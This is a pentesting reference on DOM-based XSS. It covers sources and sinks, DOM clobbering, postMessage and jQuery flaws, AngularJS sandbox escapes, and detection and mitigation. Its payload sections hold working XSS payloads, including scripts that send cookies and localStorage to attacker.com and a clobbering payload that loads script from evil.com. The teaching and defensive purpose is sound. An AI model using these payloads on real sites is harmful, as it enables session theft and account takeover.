


# DOM Attacks & DOM XSS

> **DOM XSS occurs when JavaScript takes attacker-controlled data from a source and passes it to a dangerous sink — entirely in the browser, without touching the server.**

---

## 🧠 What Is It? (Beginner Explanation)

The **Document Object Model (DOM)** is the browser's in-memory representation of a web page. JavaScript can read from it (sources) and write to it (sinks). DOM XSS is a type of Cross-Site Scripting where the vulnerability lives entirely in client-side JavaScript — the server never sees the malicious payload.

Unlike reflected/stored XSS:
- No HTTP request carries the payload
- The server's response is perfectly clean
- WAFs and server-side filters are useless
- The browser itself executes the attack

Example mental model:
```
URL: https://example.com/search#
JS:  document.getElementById("output").innerHTML = location.hash.slice(1);
```
The hash never goes to the server. The browser reads it and injects it into the DOM. **Instant XSS.**

---

## 🏗️ How It Works (Technical Deep Dive)

### The DOM Tree Structure

When a browser loads HTML, it parses it into a tree of **nodes**:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Example</title>
  </head>
  <body>
    <div id="content">
      <p class="text">Hello</p>
    </div>
  </body>
</html>
```

This becomes:
```
Document
  └── html
        ├── head
        │     └── title → "Example"
        └── body
              └── div#content
                    └── p.text → "Hello"
```

### The Document Object

```javascript
// Key document properties — pentesters look at all of these
document.URL            // Full URL including query string
document.documentURI    // Same as URL
document.referrer       // Referring page URL
document.domain         // Current domain (can be set to parent domain!)
document.cookie         // All non-HttpOnly cookies
document.forms          // HTMLCollection of all forms
document.scripts        // HTMLCollection of all script tags

// Navigation properties — classic DOM XSS sources
location.href           // Full URL
location.search         // ?query=string
location.hash           // #fragment (NEVER sent to server)
location.pathname       // /path/to/page
location.hostname       // domain.com
```

---

## 📊 Diagram





---

## ⚙️ Technical Details

### Complete Table of DOM Sources

| Source | Description | Example Value |
|--------|-------------|---------------|
| `location.search` | URL query string | `?q=hello` |
| `location.hash` | URL fragment (after #) | `#section=<script>` |
| `location.href` | Complete URL | `https://site.com/?x=1` |
| `location.pathname` | Path component | `/search/<payload>` |
| `document.referrer` | HTTP Referer header | `https://evil.com` |
| `document.URL` | Same as location.href | |
| `document.documentURI` | Same as document.URL | |
| `window.name` | Window name property | Persists across navigations! |
| `postMessage` data | Cross-window messages | Any serialized data |
| `localStorage` | Persistent key-value store | Tokens, user data |
| `sessionStorage` | Session key-value store | Temporary data |
| WebSocket messages | Real-time data | Any app-specific data |
| `document.cookie` | Cookie string | `session=abc; user=alice` |

### Complete Table of DOM Sinks

| Sink | Type | Notes |
|------|------|-------|
| `innerHTML` | HTML execution | Parses and renders HTML, executes event handlers |
| `outerHTML` | HTML execution | Same as innerHTML but replaces element |
| `insertAdjacentHTML()` | HTML execution | Inserts HTML adjacent to element |
| `document.write()` | HTML execution | Writes to document; executes scripts |
| `document.writeln()` | HTML execution | Same + newline |
| `eval()` | Code execution | Directly executes JS |
| `setTimeout(string)` | Code execution | Evaluates string as JS |
| `setInterval(string)` | Code execution | Evaluates string as JS |
| `new Function(string)` | Code execution | Creates JS function from string |
| `location.href =` | Navigation/XSS | Allows `javascript:` URIs |
| `location.assign()` | Navigation/XSS | Allows `javascript:` URIs |
| `location.replace()` | Navigation/XSS | Allows `javascript:` URIs |
| `window.open()` | Navigation/XSS | Can open `javascript:` URIs |
| `element.src =` | Resource load | Load attacker JS from `javascript:` or data URI |
| `element.srcdoc =` | iframe HTML | Sets iframe HTML content directly |
| `iframe.contentWindow` | iframe access | Access to iframe's window/document |
| `document.domain =` | SOP bypass | Relaxes same-origin to parent domain |
| `$.html()` (jQuery) | HTML execution | Wrapper around innerHTML |
| `$.append()` (jQuery) | HTML execution | Can execute script tags |
| `$(selector)` (jQuery) | HTML execution | If selector is HTML string |

---

## 🔴 Attack Surface & Exploitation

### DOM XSS Methodology

**Step 1 — Map the Sources**
```javascript
// Run in browser console to enumerate sources
console.log("URL:", location.href);
console.log("Hash:", location.hash);
console.log("Search:", location.search);
console.log("Referrer:", document.referrer);
console.log("window.name:", window.name);

// Check localStorage
for (let i = 0; i < localStorage.length; i++) {
  console.log(localStorage.key(i), "=", localStorage.getItem(localStorage.key(i)));
}
```

**Step 2 — Find Sinks in Source Code**
```bash
# Find innerHTML sinks
grep -rn "\.innerHTML\s*[+]?=" --include="*.js" ./
grep -rn "\.outerHTML\s*[+]?=" --include="*.js" ./

# Find document.write sinks
grep -rn "document\.write[ln]*\s*(" --include="*.js" ./

# Find eval sinks
grep -rn "eval\s*(" --include="*.js" ./
grep -rn "setTimeout\s*(\s*['\"]" --include="*.js" ./
grep -rn "setInterval\s*(\s*['\"]" --include="*.js" ./
grep -rn "new\s+Function\s*(" --include="*.js" ./

# Find location-based sinks
grep -rn "location\.\(href\|assign\|replace\)\s*[=+]" --include="*.js" ./

# Find jQuery sinks
grep -rn "\$([^)]*)\.\(html\|append\|prepend\|after\|before\)" --include="*.js" ./
```

**Step 3 — Trace Data Flow**
```javascript
// Override a source to trace where it goes
// Example: intercept innerHTML assignments
const originalDescriptor = Object.getOwnPropertyDescriptor(Element.prototype, 'innerHTML');
Object.defineProperty(Element.prototype, 'innerHTML', {
  set: function(value) {
    console.trace('innerHTML set to:', value.substring(0, 100));
    return originalDescriptor.set.call(this, value);
  }
});
// Now trigger app functionality and watch the console
```

**Step 4 — Craft Payload for Specific Sink**
```javascript
// For innerHTML / outerHTML

<svg onload=alert(1)>
<iframe src="javascript:alert(1)">
"><script>alert(1)</script>

// For eval() / setTimeout / setInterval
alert(document.cookie)
fetch('https://attacker.com/?c='+document.cookie)

// For location.href / assign / replace
javascript:alert(document.cookie)

// For document.write
<script>alert(1)</script>

```

### DOM Clobbering

DOM clobbering is a technique where HTML elements "clobber" (overwrite) JavaScript variables or properties by exploiting the way browsers expose named elements.

**How it works:** When you add an HTML element with an `id` or `name` attribute, the browser creates a global variable with that name pointing to the element.

```html
<!-- Attacker injects this HTML (e.g., via stored HTML injection, not XSS) -->

<form id="config">
  <input name="debug" value="true">
</form>
```

```javascript
// Application code that checks:
if (!window.isAdmin) {
  redirectToLogin();
}
// With clobbering: window.isAdmin =  element → truthy! redirectToLogin() never called

// Clobbering document properties
// If app does: const token = document.getElementById('token').value
// Inject: <input id="token" value="clobbered">
// Now getElementById returns your element!

// Clobbering document.forms
// App code: document.forms[0].action = "https://secure.example.com/submit"
// Inject: <form name="0"><input name="action" value="https://evil.com"></form>
// Now document.forms[0].action === "https://evil.com"!

// window.x clobbering
// App code: let config = window.config || defaultConfig;
// Inject: <a id="config" href="javascript:...">
// window.config is now the anchor element — truthy, bypasses default
```

**Advanced DOM Clobbering with nested elements:**
```html
<!-- Clobber x.y -->
<form id="x">
  <input id="y" value="clobbered">
</form>

<!-- Clobber x.y.z using iframes -->
<iframe name="x" srcdoc="<a id='y' href='clobbered'>"></iframe>
```

### postMessage XSS Vulnerabilities

```javascript
// VULNERABLE postMessage handler — no origin check!
window.addEventListener("message", function(event) {
  document.getElementById("output").innerHTML = event.data;
});

// EXPLOIT: open target in iframe, send message
// Attacker page:
const target = window.open("https://victim.com");
target.postMessage("", "*");

// Another vulnerable pattern — eval without origin check
window.addEventListener("message", function(event) {
  eval(event.data.code); // eval any code from any origin!
});

// More subtle — passing data to location
window.addEventListener("message", function(event) {
  if (event.data.type === "navigate") {
    location.href = event.data.url; // javascript: URI here!
  }
});

// SECURE postMessage handler
window.addEventListener("message", function(event) {
  // MUST check origin!
  if (event.origin !== "https://trusted.example.com") return;
  // MUST validate data type/structure
  if (typeof event.data !== "string") return;
  // MUST use safe sink
  document.getElementById("output").textContent = event.data;
});
```

### jQuery-Specific DOM XSS

```javascript
// jQuery selector as XSS sink — if selector starts with <, it creates HTML!
$('');   // Executes!
$('<script>alert(1)<\/script>');     // In older jQuery

// Vulnerable patterns in real apps
const id = location.hash.slice(1);
$(id);          // If hash is 

// .load() with user-controlled URL
$('#content').load(location.hash.slice(1));  // SSRF + XSS

// .html() with user input
$('#output').html(userInput);   // innerHTML wrapper

// jQuery .parseHTML() — sometimes used but still dangerous with scripts:true
$.parseHTML(userInput, document, true);  // Third param enables script execution
```

### AngularJS Sandbox Escapes

```javascript
// AngularJS template injection (when angular is used without CSP)
// In AngularJS expression context: {{ expression }}
// These bypass the sandbox in various AngularJS versions:

// AngularJS 1.0.x
{{constructor.constructor('alert(1)')()}}

// AngularJS 1.3.x
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}

// AngularJS 1.5.x
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}

// AngularJS 1.6+ (ng-init)
<div ng-app ng-csp>
  <div ng-init="x='constructor';$eval(x.constructor('alert(1)')()")></div>
</div>
```

---

## 💥 Payloads & Examples

### DOM XSS Payloads by Sink

```html
<!-- innerHTML sink -->

<svg/onload=alert(1)>
<body onload=alert(1)>
<iframe src="javascript:alert(parent.document.cookie)">
<math><mtext></table>

<!-- document.write sink -->
<script>alert(1)</script>

</script><script>alert(1)</script>

<!-- location.href sink (javascript: URI) -->
javascript:alert(document.cookie)
javascript:fetch('https://attacker.com/?c='+document.cookie)

<!-- eval / Function constructor sink -->
alert(document.cookie)
fetch('https://attacker.com/c?'+document.cookie)
(function(){var x=document.cookie;new Image().src='https://attacker.com/?c='+x})()

<!-- Cookie stealer via DOM XSS -->


<!-- Full DOM XSS data exfiltration -->
<script>
  var d = {
    cookies: document.cookie,
    storage: JSON.stringify(localStorage),
    url: location.href
  };
  new Image().src = 'https://attacker.com/log?' + btoa(JSON.stringify(d));
</script>
```

### DOM Clobbering Payloads

```html
<!-- Basic clobbering: make window.x truthy -->


<!-- Clobber document.getElementById result -->
<input id="token" value="attacker_controlled">

<!-- Clobber two-level property (x.y) -->
<form id="x"><input id="y" value="clobbered"></form>

<!-- Clobber href property -->
<a id="x" href="javascript:alert(1)">

<!-- Clobber with anchor to exploit href in app code -->
<a id="defaultAvatar" href="//evil.com/malicious.js">
<!-- If app does: const avatarSrc = window.defaultAvatar.href; -->
<!-- Then injects: <script src="//evil.com/malicious.js"> -->
```

### Real CVE Examples

| CVE | Application | Type | Description |
|-----|-------------|------|-------------|
| CVE-2020-11022 | jQuery < 3.5.0 | DOM XSS | `$.html()` with `<script>` in IE |
| CVE-2019-11358 | jQuery < 3.4.0 | Proto Pollution | `$.extend(true, ...)` pollutes prototype |
| CVE-2021-41184 | jQuery UI | DOM XSS | `datepicker` widget `beforeShow` callback |
| CVE-2020-7699 | express-fileupload | Proto Pollution | File upload pollutes Object.prototype |
| CVE-2021-21311 | Adminer < 4.7.9 | SSRF + DOM XSS | Server-side redirect + DOM injection |

---

## 🛠️ Tools & Commands

### Browser Console Testing Methodology

```javascript
// Step 1: List all possible DOM sources
[
  location.href,
  location.hash,
  location.search,
  location.pathname,
  document.referrer,
  document.URL,
  window.name
].forEach((s, i) => console.log(i, s));

// Step 2: Monitor innerHTML assignments
const observer = new MutationObserver(mutations => {
  mutations.forEach(m => {
    m.addedNodes.forEach(node => {
      console.log("DOM mutation:", node);
    });
  });
});
observer.observe(document.body, { childList: true, subtree: true });

// Step 3: Hook dangerous functions
const _eval = eval;
window.eval = function(code) {
  console.trace("eval called with:", code);
  return _eval(code);
};

// Step 4: Test hash-based sources
location.hash = "#";
// Then trigger relevant app functionality

// Step 5: Test postMessage
window.dispatchEvent(new MessageEvent("message", {
  data: "",
  origin: "https://trusted.example.com"
}));
```

### Burp Suite DOM Invader

```
1. Install Burp Suite Pro → Extensions → BApp Store → DOM Invader
2. Enable DOM Invader in Burp's embedded browser
3. Navigate to target app
4. DOM Invader auto-injects a canary into sources
5. Look for canary in sinks (highlighted in panel)
6. Click on sink → auto-generates exploits
```

### grep Patterns for Source Code Review

```bash
# Find innerHTML/outerHTML sinks
grep -rn "innerHTML\s*[+]?=" --include="*.js" --include="*.html" ./

# Find location-based sinks
grep -rn "location\.\(href\|assign\|replace\)\s*=" --include="*.js" ./

# Find eval-like sinks
grep -rn -E "eval\(|setTimeout\(('|\")|setInterval\(('|\")|\bFunction\(" --include="*.js" ./

# Find document.write
grep -rn "document\.write" --include="*.js" --include="*.html" ./

# Find postMessage handlers without origin check
grep -A5 "addEventListener.*message" --include="*.js" -rn ./ | grep -v "origin"

# Find jQuery sinks
grep -rn "\.\(html\|append\|prepend\|after\|before\|replaceWith\)\s*(" --include="*.js" ./

# Find sources connected to sinks (data flow indicators)
grep -rn "location\.hash\|location\.search\|document\.referrer" --include="*.js" ./
```

---

## 🔍 Detection

### DOM XSS Testing Checklist

```
[ ] Identify all URL parameters that reflect in JS
    - Modify each param, trace where value appears in DOM

[ ] Test URL hash (#fragment)
    - Most apps don't escape hash before using it
    - Set: location.hash = "#xss_canary_1234"
    - Search: document.body.innerHTML.includes("xss_canary_1234")

[ ] Check document.referrer usage
    - Load page from a URL like: https://site.com/page where site.com processes referrer

[ ] Test window.name
    - window.name = ""
    - Navigate to target page; if it uses window.name → XSS

[ ] Enumerate postMessage handlers
    - Search code for addEventListener("message"
    - Test with: window.postMessage(payload, "*")

[ ] Check localStorage/sessionStorage for XSS injection points
    - If app reads localStorage and puts into DOM unsafely

[ ] Test DOM clobbering
    - If HTML injection exists (even without script execution)
    - Try clobbering security-relevant variable names

[ ] Use DOM Invader (Burp) for automated source→sink tracing

[ ] Check third-party libraries for known DOM XSS CVEs
    - Identify jQuery/Angular/React versions
    - Check against CVE databases
```

---

## 🛡️ Mitigation

```javascript
// ✅ Use textContent instead of innerHTML
element.textContent = userInput;  // Never parsed as HTML

// ✅ Use DOMPurify for sanitization when HTML is needed
import DOMPurify from 'dompurify';
element.innerHTML = DOMPurify.sanitize(userInput, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong'],
  ALLOWED_ATTR: []
});

// ✅ Validate postMessage origin ALWAYS
window.addEventListener("message", function(event) {
  if (event.origin !== "https://trusted.example.com") {
    return; // Ignore messages from unknown origins
  }
  // Now process event.data safely
});

// ✅ Avoid eval and string-based timers
// ❌ Bad:
setTimeout("processData(" + id + ")", 100);
// ✅ Good:
setTimeout(() => processData(id), 100);

// ✅ Use CSP to restrict script execution
// Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123'

// ✅ Use href validation to prevent javascript: URIs
function safeRedirect(url) {
  try {
    const parsed = new URL(url);
    if (parsed.protocol !== "https:" && parsed.protocol !== "http:") {
      throw new Error("Unsafe protocol");
    }
    location.href = url;
  } catch (e) {
    console.error("Blocked unsafe redirect:", url);
  }
}

// ✅ Freeze Object.prototype to prevent prototype pollution
Object.freeze(Object.prototype);
```

---

## 📚 References

- [PortSwigger - DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
- [PortSwigger - DOM Clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [PortSwigger - Controlling the web with postMessage](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source)
- [OWASP - DOM Based XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS)
- [DOMPurify](https://github.com/cure53/DOMPurify)
- [XSS cheat sheet - PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [HackTricks - XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
